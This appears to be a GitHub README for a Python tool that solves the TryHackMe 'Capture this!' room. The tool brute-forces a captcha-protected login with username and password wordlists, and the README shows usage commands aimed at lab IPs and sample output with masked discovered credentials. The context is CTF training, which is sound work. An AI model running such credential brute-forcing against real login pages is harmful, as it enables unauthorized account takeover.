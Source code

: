 # Capture! ByPass (TryHackme CTF)

<p align="center"><img src="images/capture-logo.png" alt="vkm-logo" style='width:150px;height:150px;'></p>


<div align="center">
    <img src="https://img.shields.io/badge/Code%20By%20CarlosPadilla-8338ec">
    <img src="https://img.shields.io/github/downloads/cpadlab/capture/total">
    <img src="https://img.shields.io/github/license/cpadlab/capture">
    <img src="https://img.shields.io/tokei/lines/github/cpadlab/capture">
    <img src="https://img.shields.io/github/stars/cpadlab/capture">
</div>

**Author**: Carlos Padilla (cpadlab)

**Download**: https://github.com/cpadlab/capture#Install

**Room Title**: Capture this!

**Room Link**: [URL](https://tryhackme.com/room/capture!)

**Room Author**: [toxicat0r](https://tryhackme.com/p/toxicat0r) && [https://tryhackme.com/p/tryhackme](tryhackme)


# Table of Contents

1. [Download](https://github.com/cpadlab/capture#Download)
2. [Usage](https://github.com/cpadlab/capture#Usage)
3. [Usage Example](https://github.com/cpadlab/capture#Example)
4. [Output](https://github.com/cpadlab/capture#Output)
5. [License](https://github.com/cpadlab/capture/LICENSE)


# Download

```
git clone https://github.com/cpadlab/capture/
cd capture/ && pip install -r requirements.txt

```

# Usage

```bash
┌──(cpadlab㉿seccon)-[~/capture]
└─$ python bypass.py --help  

usage: bypass.py [-h] [-p PASSLIST] [-u USERLIST] --url URL

CaptureByPass Args

options:
  -h, --help            show this help message and exit
  -p PASSLIST, --passlist PASSLIST
  -u USERLIST, --userlist USERLIST
  --url URL 
```

`--url URL` Is Required.

## Examples

```bash
python bypass.py --passlist passwords.txt --userlist usernames.txt --url 10.10.10.10
```

<details>
  <summary>See More</summary>

```bash
python bypass.py -p passwords.txt --u usernames.txt --url 10.10.10.10/login
```

```bash
python bypass.py -u usernames.txt --url http://10.10.10.10
```

```bash
python bypass.py -p passwords.txt --url http://10.10.10.10/login
```

```bash
python bypass.py --url http://10.10.10.10/login # http://10.10.10.10 or 10.10.10.10
```
    
</details>

# Output

```
==============================================
Capture!ByPass         Carlos Padilla (14wual)
==============================================
   _____                _                   _ 
  / ____|   /\         | |  ByPass Script  | |
 | |       /  \   _ __ | |_ _ __ _   _  ___| |
 | |      / /\ \ | '_ \| __| '__| | | |/ _ \ |
 | |____ / ____ \| |_) | |_| |  | |_| |  __/_|
  \_____/_/    \_\ .__/ \__|_|   \__,_|\___(_)
                 | |                          
                 |_| (Code by 14Wual)
==============================================
Author Web: https://cpadlab.github.io/
CTF Room: https://tryhackme.com/room/capture
==============================================
TARGET: http://10.10.206.228
==============================================
PassList Size: 1567
UserList Size: 878
==============================================
[Info] Started at: 30:01/2024 - 00:34:02
[Info] Captchat enabled.
[*] Trying Username: hunter with the test password.
...
[Info] Discovered username: n******.
[*] Trying Password: michaela for n******.
...
[Info] Discovered password: s***
==============================================
[CREDENTIALS] n******:s*******
==============================================
[Info] Opening New Browser Tab

```
